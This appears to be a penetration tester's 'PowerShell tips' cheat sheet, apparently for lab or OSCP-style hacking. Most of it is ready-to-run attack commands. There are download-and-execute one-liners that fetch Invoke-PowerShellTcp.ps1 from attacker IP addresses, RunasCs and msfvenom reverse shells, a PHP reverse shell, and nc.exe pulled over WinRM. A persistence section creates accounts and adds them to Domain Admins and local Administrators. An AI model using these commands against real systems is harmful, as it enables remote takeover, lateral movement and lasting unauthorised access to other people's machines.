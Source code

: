 # PowerShell tips

# Running a background process

This can be useful when you want to have multiple open shells but don’t feel like re-exploiting the foothold. you can replace the iex command with anything

```coffeescript
Start-Job -Command {iex (new-object net.webclient).downloadstring('http://10.10.16.58/Invoke-PowerShellTcp.ps1')}
```

Also useful for port forwarding

## Check Who is Running a Process

Say for instance you find port 8080 open on localhost. You can check if it is being run by system by listing the “Image Name” that is running the PID.

```coffeescript
Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4

> tasklist /fi "pid eq 4" 
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System                           4 Services                   0        156 K
```

In the above case, we see that PID 4 (port 8000) is being run as “System”

## Switch to a different user

Say you have a shell as a service account but have creds for someone with more priviledges. You could use Runascs.exe compiled from this [github repo](https://github.com/antonioCoco/RunasCs/tree/master). This command will give a reverse shell as c.bum

More options for switching a user here: [https://nohttps://notchxor.github.io/oscp-notes/4-win-privesc/14-runas/tchxor.github.io/oscp-notes/4-win-privesc/14-runas/](https://notchxor.github.io/oscp-notes/4-win-privesc/14-runas/)

```coffeescript
.\Runascs.exe user pass powershell -r <attacker ip>:443

# https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1
	Invoke-Runascs user passw powershell -r <attacker ip>:443
```

## Useful Aliases

```jsx
Import-Module -> ipmo
```

## PowerShell Sudo

This allows you to run commands at other users. it is the PowerShell equivalent of Sudo. (Note that Invoke-runascs.ps1 often works better)

```nasm
#CREATE A CREDENTIAL OBJECT
$pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<USERNAME>", $pass)

#For local:
Start-Process -Credential ($cred)  -NoNewWindow powershell "iex (New-Object Net.WebClient).DownloadString('http://10.10.14.11:443/ipst.ps1')"

#For WINRM
#CHECK IF CREDENTIALS ARE WORKING EXECUTING whoami (expected: username of the credentials user)
Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
#DOWNLOAD nc.exe
Invoke-Command -Computer ARKHAM -ScriptBlock { IWR -uri 10.10.14.17/nc.exe -outfile nc.exe } -credential $cred

Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process C:\xyz\nc.bat -verb Runas}'

#Another method
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
```

You can do sudo through CMD as well

```jsx
runas /netonly /user<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted
```

### Invoke-RunasCs.ps1

This one works good in ********************************Active Directory********************************. It might also work well in non-AD environments. IT JUST WORKS, USE IT:

```bash
import-module .\Invoke-RunasCs.ps1
Invoke-RunasCs username password whoami
```

## Persistence with users

You can use these commands to create a user with privileges so that you can maintain persistence on a system

```jsx
# Add domain user and put them in Domain Admins group
net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN

# Add local user and put them local Administrators group
net user username password /ADD
net localgroup Administrators username /ADD

# Add user to insteresting groups:
net localgroup "Remote Desktop Users" UserLoginName  /add
net localgroup "Debugger users" UserLoginName /add
net localgroup "Power users" UserLoginName /add

# create AD user in powershell 
$strCLass = “User”
$StrName = “CN=MyNewUser”
$objADSI = [ADSI]”LDAP://ou=myTestOU,dc=nwtraders,dc=msft”
$objUser = $objADSI.create($strCLass, $StrName)
$objUser.Put(“sAMAccountName”, “MyNewUser”)
$objUser.setInfo()
```

# Reverse Shell

### MsfVenom command execution

You can execute commands through MsfVenom executables. This ones gives a powershell reverse shell.

```abap

#64 bit
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://192.168.49.116/Invoke-PowerShellTcp.ps1')\"" -f exe > pay.exe

# 32 bit
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://192.168.49.116/Invoke-PowerShellTcp.ps1')\"" -f exe > pay.exe

# php reverse shell (works on windows)
msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php
```

Also, this repo contains a PHP reverse shell that works for Windows, MacOS, and Linux.

[php-reverse-shell/php_reverse_shell.php at master · ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Keep in mind you’ll need to edit the connection variables

```abap
$sh = new Shell('YOUR_IP', 443);
```

## PowerShell One-liner

```abap
powershell IEX(New-Object Net.webclient).downloadstring('http://192.168.116.99/Invoke-PowerShellTcp.ps1')
```

[Windows Tips](PowerShell%20tips%206e3c0a69a96a4dfcb0ab888385c2aa34/Windows%20Tips%202538ffc0176f4fbaa8e586b5ac7bcd9b.md)

[AV Evasion](PowerShell%20tips%206e3c0a69a96a4dfcb0ab888385c2aa34/AV%20Evasion%205155892409db47278a8a9daa70d4587a.md)